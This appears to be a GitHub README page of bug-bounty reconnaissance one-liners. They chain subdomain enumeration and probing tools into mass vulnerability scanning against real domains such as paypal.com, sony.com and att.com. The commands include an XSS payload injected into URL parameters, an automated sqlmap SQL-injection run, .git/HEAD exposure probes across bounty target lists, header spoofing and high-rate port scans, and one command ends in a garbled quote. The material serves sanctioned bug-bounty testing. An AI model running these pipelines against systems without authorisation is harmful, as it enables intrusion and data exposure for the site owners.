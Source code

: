 ```bash
shodan domain domain| awk '{print $3}'|  httpx -silent | anew | xargs -I@ jaeles scan -c 100 -s /jaeles-signatures/ -u @
```
**Using Chaos to jaeles "How did I find a critical today?.**
```bash
chaos -d domain | httpx -silent | anew | xargs -I@ jaeles scan -c 100 -s /jaeles-signatures/ -u @ 
```
**Using shodan to jaeles**
```bash
domain="domaintotest";shodan domain $domain | awk -v domain="$domain" '{print $1"."domain}'| httpx -threads 300 | anew shodanHostsUp | xargs -I@ -P3 sh -c 'jaeles -c 300 scan -s jaeles-signatures/ -u @'| anew JaelesShodanHosts 
```
**Search to files using assetfinder and ffuf**
```bash
assetfinder att.com | sed 's**.****' | httpx -silent -threads 10 | xargs -I@ sh -c 'ffuf -w path.txt -u @/FUZZ -mc 200 -H "Content-Type: application/json" -t 150 -H "X-Forwarded-For:127.0.0.1"'
```
**HTTPX using new mode location and injection XSS using qsreplace.**
```bash
httpx -l master.txt -silent -no-color -threads 300 -location 301,302 | awk '{print $2}' | grep -Eo '(http|https)://[^/"].*' | tr -d '[]' | anew  | xargs -I@ sh -c 'gospider -d 0 -s @' | tr ' ' '\n' | grep -Eo '(http|https)://[^/"].*' | grep "=" | qsreplace "<svg onload=alert(1)>" "'
```
**Grap internal juicy paths and do requests to them.**
```bash
export domain="https://target";gospider -s $domain -d 3 -c 300 | awk '/linkfinder/{print $NF}' | grep -v "http" | grep -v "http" | unfurl paths | anew | xargs -I@ -P50 sh -c 'echo $domain@ | httpx -silent -content-length'
```
**Download to list bounty targets We inject using the sed .git/HEAD command at the end of each url.**
```bash
wget https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/master/data/domains.txt -nv | cat domains.txt | sed 's****.git/HEAD**' | httpx -silent -content-length -status-code 301,302 -timeout 3 -retries 0 -ports 80,8080,443 -threads 500 -title | anew
```
**Using to findomain to SQLINJECTION.**
```bash
findomain -t testphp.vulnweb.com -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1
```
**Jaeles scan to bugbounty targets.**
```bash
wget https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/master/data/domains.txt -nv ; cat domains.txt | anew | httpx -silent -threads 500 | xargs -I@ jaeles scan -s /jaeles-signatures/ -u @
```
**JLDC domain search subdomain, using rush and jaeles.**
```bash
curl -s "https://jldc.me/anubis/subdomains/sony.com" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | httpx -silent -threads 300 | anew | rush -j 10 'jaeles scan -s /jaeles-signatures/ -u {}'
```
**Chaos to search subdomains check cloudflareip scan port.**
```bash
chaos -silent -d paypal.com | filter-resolved | cf-check | anew | naabu -rate 60000 -silent -verify | httpx -title -silent
```
**Search JS to domains file.**
```bash
cat FILE TO TARGET | httpx -silent | subjs | anew
```
**Search JS using assetfinder, rush and hakrawler.**
```bash
assetfinder -subs-only paypal.com -silent | httpx -timeout 3 -threads 300 --follow-redirects -silent | rush 'hakrawler -plain -linkfinder -depth 5 -url {}' | grep "paypal"
```
